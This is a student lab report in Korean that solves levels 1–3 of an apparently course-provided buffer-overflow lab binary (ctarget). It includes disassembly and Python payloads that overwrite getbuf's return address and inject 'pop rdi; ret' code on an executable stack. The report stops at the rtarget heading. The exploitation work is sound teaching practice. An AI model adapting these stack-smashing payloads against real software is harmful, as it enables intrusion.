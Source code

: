 <style>
html {
    font-family: Arial, Helvetica, sans-serif;
    font-size: 11pt;
}

.break {
    break-after: page;
}
</style>

# Attack Lab Report

## Profile

- 날짜: 2025.11.01
- 학번: 20240614
- 이름: 이종원

## ctarget (level 1-3)

### Binary Core Structure

```mermaid
graph TD
    A[main] --> B[handlers<br/><font color=purple>SIGILL, SIGBUS, SIGSEGV</font>]
    A --> C[initialize_target]
    C --> D[gencookie]
    C --> E[gencookie]
    A --> F[stable_launch]
    F --> G[mmap<br/>0x55586000 - 0x55686000<br/><font color=purple>custom stack</font>]
    F --> H[launch]
    H --> I[memset<br/><font color=purple>custom stack frame</font>]
    H --> J[test]
    J --> K[getbuf<br/><font color=purple>BOF target function</font>]
    K --> L[Gets]
    L --> M[get]
    L --> N[save_char]
    L --> O[save_term]

    classDef cyan color:cyan;

    class A,F,H,J,L cyan;
    style K color:red;
```

### Binary Information

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
Debuginfo:  Yes
```

### 0. Non Excutable

Binary NX bit를 보면 이 바이너리는 NX가 켜져있다는 것을 알 수 있다. 그러므로 과제에서 명시된 Code Injection은 이 바이너리로는 수행할 수 없다.  

```
gef➤  vmmap
[ Legend:  Code | Stack | Heap ]
Start              End                Offset             Perm Path
...
0x0000000055586000 0x0000000055686000 0x0000000000000000 rwx
...
0x00007ffffffdd000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```

그러나 vmmap을 통해 바이너리 각 부분의 rwx 권한을 조회하면 특정 부분에서 rwx가 모두 켜져있다는 것을 알 수 있다. 이는 프로그램이 `stable_launch` 및 `launch`에서 설정한 custom stack을 사용하고 있기 때문이다. 이는 ASLR를 키면서도 안 켜진 상황을 시뮬레이션하기 위해 임의로 할당한 것이다.  
따라서 이 바이너리는 Code Injection이 가능하다.

### 1. getbuf

Buffer Overflow가 일어나는 함수이다.

```
gef➤  disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017e6 <+0>:     sub    rsp,0x38
   0x00000000004017ea <+4>:     mov    rdi,rsp
   0x00000000004017ed <+7>:     call   0x401a2a <Gets>
   0x00000000004017f2 <+12>:    mov    eax,0x1
   0x00000000004017f7 <+17>:    add    rsp,0x38
-> 0x00000000004017fb <+21>:    ret
```

다음과 같은 구조로 이루어져 있는데, 이는 `$rsp - 0x38`에 buffer를 만들고 입력을 받아 `$rsp` 부분을 원하는 주소로 덮어 rip를 조작해 원하는 코드를 실행시키는 방식이다. `*getbuf+21` 관점에서 스택을 보면 다음과 같다.

```
<buffer> // $rsp - 0x38
<buffer> // $rsp - 0x30
<buffer> // $rsp - 0x28
<buffer> // $rsp - 0x20
<buffer> // $rsp - 0x18
<buffer> // $rsp - 0x10
<buffer> // $rsp - 0x08
ret addr // $rsp
```

이때 후술할 [Gets](#2-gets) 함수의 구조에 의해 ret addr를 덮어씌울 수 있다. 따라서 이 return address를 `touch1`, `touch2`, 또는 `touch3`로 덮는다면 해당 함수를 호출할 수 있다.

### 2. Gets

이 함수는 입력한 문자열을 앞에서부터 읽어 주어진 buffer 인자에 저장하고 EOF를 만나거나 개행문자를 만난다면 종료하는 함수이다.

```mermaid
graph LR
    A["mov rbx,rdi"] --> B["call _IO_getc"]
    B --> C["mov BYTE PTR [rbx],al"]
    C --> D["lea rbp,[rbx+0x1] ; mov rbx,rbp"]
    D --> E{"cmp eax,0xffffffff<br/>(EOF check)"}
    E -->|"je (EOF)"| F["mov BYTE PTR [rbx],0x0"]
    E -->|"jne"| G{"cmp eax,0xa"}
    G -->|"je (newline)"| F
    G -->|"jne"| B
    F --> H["ret"]
```

동작은 이와 같이 설명할 수 있다. 우선 rbx에 인자(buffer address)를 저장하고 `get` 함수를 통해 맨 앞 1바이트를 읽는다. 이후 eax가 -1이나 10(=`\n`)이 아니라면 해당 rbx에 저장하고, rbx의 값을 1 증가시킨다. 만약 조건에 맞는다면 rbx에 0(=null terminator)을 저장하고 함수를 종료한다.

여기서 알 수 있듯이 문자 몇 개를 받는지에 대한 제한이 존재하지 않는다. 따라서 스택의 return address를 덮을 수 있다.

### 3. hexmatch

```
gef➤  x/s 0x402f8d
0x402f8d:       "%.8x"
```
```
0x00000000004018c9 <+75>:    mov    esi,0x402f8d
0x00000000004018ce <+80>:    mov    rdi,rbx
0x00000000004018d1 <+83>:    mov    eax,0x0
0x00000000004018d6 <+88>:    call   0x400de0 <sprintf@plt>
0x00000000004018db <+93>:    mov    edx,0x9
0x00000000004018e0 <+98>:    mov    rsi,rbx
0x00000000004018e3 <+101>:   mov    rdi,rbp
0x00000000004018e6 <+104>:   call   0x400c30 <strncmp@plt>
0x00000000004018eb <+109>:   test   eax,eax
0x00000000004018ed <+111>:   sete   al
0x00000000004018f0 <+114>:   movzx  eax,al
0x00000000004018fb <+125>:   ret
```

hexmatch 함수는 주어진 edi, rsi에 각각 int 값과 addr를 받는다. 이후 edi의 값을 `sprintf` 함수로 `".8x"`, 즉, 최소 길이 8의 hex로 바꾼다. 이후 이 값이 주어진 문자열과 같은지 rsi에 저장된 주소의 값과 비교하여 같으면 1, 아니면 0을 반환한다.

### 4. touch 1

우선 들어가기 전에 [Binary Information](#binary-information)를 보면 알 수 있듯이 `PIE`가 꺼져있다. 따라서 프로그램 실행 주소는 변하지 않을 것이라고 알 수 있다.

```
0x0000000000401819 <+29>:    call   0x401c19 <validate>
```

touch1 함수의 경우 아무 검사도 하지 않고 호출만 하면 validate를 호출한다. 따라서 solution은 다음과 같다.

```python
solution = (
    b"a" * BUF_SIZE # padding
    + p64(0x4017fc) # touch 1
)
```

여기서 `p64`란 문자열로 입력하고 정수로 읽었을 때 주어진 64비트 정수로 해석될 수 있도록 바꿔주는 함수이다. 이것은 `little-endian`과 문자열을 읽는 방식의 차이로 발생한다.

### 5. touch 2

```
0x0000000000401838 <+16>:    cmp    edi,DWORD PTR [rip+0x202cc6]        # 0x604504 <cookie>
0x000000000040183e <+22>:    jne    0x40185b <touch2+51>
0x0000000000401854 <+44>:    call   0x401c19 <validate>
```

touch2 함수의 경우에는 edi, 즉 첫 번째 인자가 global variable인 cookie의 값과 같아야 한다. 이때 cookie는 [Binary Structure](#binary-core-structure)의 gencookie 부분에서 만들어졌다. 또한 사전에 `cookie.txt`로 주어지기도 하였다.  
[NX](#0-non-excutable) 부분에서 설명했듯이 해당 스택은 custom stack으로 rwx 권한을 가지고 있기에 stack에 binary를 써넣으면 실행이 된다. 이때 rdi에 cookie의 값이 할당되는 코드가 실행되어야 한다. 따라서 solution은 다음과 같다.

```python
POPRDIRET = b'\x5f\xc3' # pop rdi; ret, arch='amd64'
solution = (
    POPRDIRET
    + b"a" * (BUF_SIZE - len(POPRDIRET)) # padding
    + p64(0x5561e608) # pop rdi; ret addr (stack address)
    + p64(COOKIE) # cookie value
    + p64(0x401828) # touch 2
)
```

이렇게 되면 스택에는 code, padding, code addr, cookie value, touch2 addr가 순서대로 들어간다. 이때 `getbuf`의 ret은 code addr를 rip에 저장하여 프로그램의 실행은 code로 넘어가게 되고, 이때 rsp는 cookie value를 가리키고 있기에 `pop rdi`를 하게 되면 rdi에 cookie의 값이 들어가게 된다. 이후 code의 ret이 실행되면 touch2의 주소가 rip에 할당되면서 touch2가 rdi와 함께 호출된다.

### 6. touch 3

```
0x000000000040190a <+14>:    mov    rsi,rdi
0x000000000040190d <+17>:    mov    edi,DWORD PTR [rip+0x202bf1]        # 0x604504 <cookie>
0x0000000000401913 <+23>:    call   0x40187e <hexmatch>
0x0000000000401918 <+28>:    test   eax,eax
0x000000000040191a <+30>:    je     0x40193a <touch3+62>
...
0x0000000000401933 <+55>:    call   0x401c19 <validate>
```

touch3는 rdi에 어떤 문자열 주소를 받는다. 이때 이 값은 [hexmatch](#3-hexmatch)에 실제 cookie value와 함께 넘어가서 rdi에 저장된 주소에 있는 문자열과 cookie의 hex string이 같은지 검사한다. 이후 같다면 validate를 호출한다. 이는 rdi에 문자열의 주소를 저장해야 하기 떄문에 cookie hex string을 저장하고 그 주소를 rdi에 넘겨야 한다. 따라서 solution은 다음과 같다.

```python
payload = long_to_bytes(COOKIE).hex().encode() + b'\x00'
solution = (
    payload
    + POPRDIRET
    + b"a" * (BUF_SIZE - len(payload) - len(POPRDIRET)) # padding
    + p64(0x5561e608 + len(payload)) # pop rdi; ret
    + p64(0x5561e608) # cookie hex value address
    + p64(0x4018fc) # touch 3
)
```

이때 `long_to_bytes`는 정수를 `big-endian` 형식으로 bytes로 바꾸어주는 함수이다.  
뒤에 문자열의 끝을 명시하기 위해 null terminator를 붙여 cookie hex string을 만들 수 있다. 이후 [touch 2](#5-touch-2)와 같이 `pop rdi; ret` 코드를 스택에 작성하고, padding을 넣는다. `getbuf`의 ret이 입력한 코드로 이동하도록 주소를 조정하고 rdi에 문자열의 주소(스택의 맨 위 주소)를 넣을 수 있도록 스택에 넣어준 후, touch 3의 주소를 넣는다. 이렇게 되면 rdi에 문자열의 주소가 들어간 채로 touch 3가 호출된다.

## rtarget (level 4-5)